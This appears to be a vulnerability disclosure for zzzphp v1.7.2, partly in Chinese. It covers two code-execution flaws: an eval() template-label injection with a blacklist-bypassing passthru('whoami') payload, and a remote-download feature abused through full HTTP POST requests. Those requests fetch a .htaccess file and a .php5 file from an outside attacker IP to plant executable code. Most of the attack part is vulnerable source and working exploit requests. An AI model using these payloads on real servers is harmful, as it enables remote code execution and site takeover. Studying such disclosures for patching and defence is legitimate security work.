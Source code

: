 ## zzzphp v1.7.2 Code excute 1

捡洞，原文来源于https://xz.aliyun.com/t/4471

原文版本为1.6.1，当前版本1.7.2在换了个poc之后依旧可以造成命令执行。

在inc/zzz_template.php第2343到2492行

```php
function parserIfLabel( $zcontent ) {
	$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
	if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
		$count = count( $matches[ 0 ] );
		var_dump($count);
		for ( $i = 0; $i < $count; $i++ ) {
			$flag = '';
			$out_html = '';
			$ifstr = $matches[ 1 ][ $i ];
			// 危险关键字过滤
			$ifstr=danger_key($ifstr);
			$ifstr = str_replace( '=', '==', $ifstr );
			$ifstr = str_replace( '<>', '!=', $ifstr );
			$ifstr = str_replace( 'or', '||', $ifstr );
			$ifstr = str_replace( 'and', '&&', $ifstr );
			$ifstr = str_replace( 'mod', '%', $ifstr );
			//echop( $ifstr);
			@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
			if ( preg_match( '/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[ 2 ][ $i ], $matches2 ) ) { // 判断是否存在else
				switch ( $flag ) {
					case 'if': // 条件为真
						if ( isset( $matches2[ 1 ] ) ) {
							$out_html .= $matches2[ 1 ];
						}
						break;
					case 'else': // 条件为假
						if ( isset( $matches2[ 2 ] ) ) {
							$out_html .= $matches2[ 2 ];
						}
						break;
				}
			} elseif ( $flag == 'if' ) {
				$out_html .= $matches[ 2 ][ $i ];
			}
			// 无限极嵌套解析
			$pattern2 = '/\{if([0-9]):/';
			if ( preg_match( $pattern2, $out_html, $matches3 ) ) {
				$out_html = str_replace( '{if' . $matches3[ 1 ], '{if', $out_html );
				$out_html = str_replace( '{else' . $matches3[ 1 ] . '}', '{else}', $out_html );
				$out_html = str_replace( '{end if' . $matches3[ 1 ] . '}', '{end if}', $out_html );
				$out_html = $this->parserIfLabel( $out_html );
			}
			// 执行替换
			$zcontent = str_replace( $matches[ 0 ][ $i ], $out_html, $zcontent );
		}
	}
	return $zcontent;
}
```

主要是去解析模板文件里的if语句，模板文件中是{if:a}{end:if}形式，需要解析为php语法。第2362行使用了eval函数，拼凑参数$ifstr，$ifstr是{if:a}里的a，同时$ifstr进行了黑名单替换，替换的关键字如下：

```php
$danger=array('php','preg','server','chr','decode','html','md5','post','get','cookie','session','sql','del','encrypt','upload','db','$','system','exec','shell','popen','eval');
$s = str_ireplace($danger,"*",$s);
```

POC使用`{if:passthru("whoami")}hacked{end if}`即可绕过检测，修改html和先知文章一样，最终利用：

![](https://s2.ax1x.com/2019/09/04/nVgB0s.png)

![](https://s2.ax1x.com/2019/09/04/nVgU1S.png)

![](https://s2.ax1x.com/2019/09/04/nVga6g.png)

## zzzphp v1.7.2 Code excute 2

inc/zzz_file.php

```php
function down_url( $url, $save_dir='file', $filename = '', $type = 0 ) {
	if ( is_null( $url ) ) return array( 'state' => '内容为空', 'dir' => '', 'url' => '', 'error' => 1 );
	// save_dir = zzzphp/upload/file/
	$save_dir = SITE_DIR.conf('uploadpath').$save_dir.'/';
	// 未指定filename参数，以url结尾保存文件
	if ( trim( $filename ) == '' ) { //保存文件名
		$filename = file_name( $url );
		$file_ext = file_ext( $url );
	}else{
		$file_ext = file_ext( $url );
	}
	if(in_array($file_ext,array('php','asp','aspx','exe','sh','sql','bat')) ||  empty($file_ext))  {
		return array( 'state' => '创建文件失败,禁止创建'.$file_ext.'文件！,' . $url, 'dir' => '', 'url' => '', 'error' => 5 );
	}
	//创建保存目录
	if ( !file_exists( $save_dir ) && !mkdir( $save_dir, 0777, true ) ) {
		return array( 'state' => '创建文件夹失败', 'dir' => '', 'url' => '', 'error' => 5 );
	}
	$file_dir = $save_dir . $filename;
	$file_path = str_replace( SITE_DIR, SITE_PATH, $file_dir );
	if ( file_exists( $file_dir ) )	del_file( $file_dir );
	//获取远程文件所采用的方法
	if ( $type ) {
		$ch = curl_init();
		$timeout = 5;
		curl_setopt( $ch, CURLOPT_URL, $url );
		curl_setopt( $ch, CURLOPT_RETURNTRANSFER, 1 );
		curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, $timeout );
		$img = curl_exec( $ch );
		curl_close( $ch );
	} else {
		ob_start();
		readfile( $url );
		$img = ob_get_contents();
		ob_end_clean();
	}
	$fp2 = @fopen( $file_dir, 'a' );
	fwrite( $fp2, $img );
	fclose( $fp2 );
	unset( $img, $url );
	return array('state'=> 'SUCCESS','title' => $filename, 'dir' => $file_dir, 'ext' => $file_ext, 'url' => $file_path, 'error' => 0 );
}
```

function down_url() will download file with the specified url. This made a blacklist limit, but it was easy to bypass. For example, we can use `php5` to bypass the check of php, and `htaccess` is not in the blacklist !

so we can upload a .htaccess file firstly and upload a php5 file.

The down_url() is used in the plugins/ueditor/php/controller.php:

```php
switch ($action) {
    ......
/* 抓取远程文件 */
    case 'catchimage':
		$source=getform('source','post');
		$list = array();
     	foreach ($source as $imgUrl) {
			$info =down_url(safe_url($imgUrl),$upfolder); 
			if ($info['state']=="SUCCESS"){
				array_push($list, array(			
					"state" => "SUCCESS",				
					"title" => $info["title"],
					"url" => $info["url"],
					"source"=>$imgUrl
				));
			}
		}
		$result =  json_encode(array(
			'state' => count($list) ? 'SUCCESS' : 'ERROR',
			'list' => $list
		));
        break;
```

Specify the `$action` parameter to enter this case. Pass the `source` parameter to specify the url.

Final Poc like this:

Download .htaccess

```
POST /zzzphp/plugins/ueditor/php/controller.php?upfolder=news&action=catchimage& HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/zzzphp/admin412/?content/cid=4
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

source[]=http://45.78.50.117:8000/.htaccess
```

Download s.php5

```
POST /zzzphp/plugins/ueditor/php/controller.php?upfolder=news&action=catchimage& HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/zzzphp/admin412/?content/cid=4
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

source[]=http://45.78.50.117:8000/s.php5
```

A gif:

![](https://s2.ax1x.com/2019/09/05/nmi8Ug.gif)

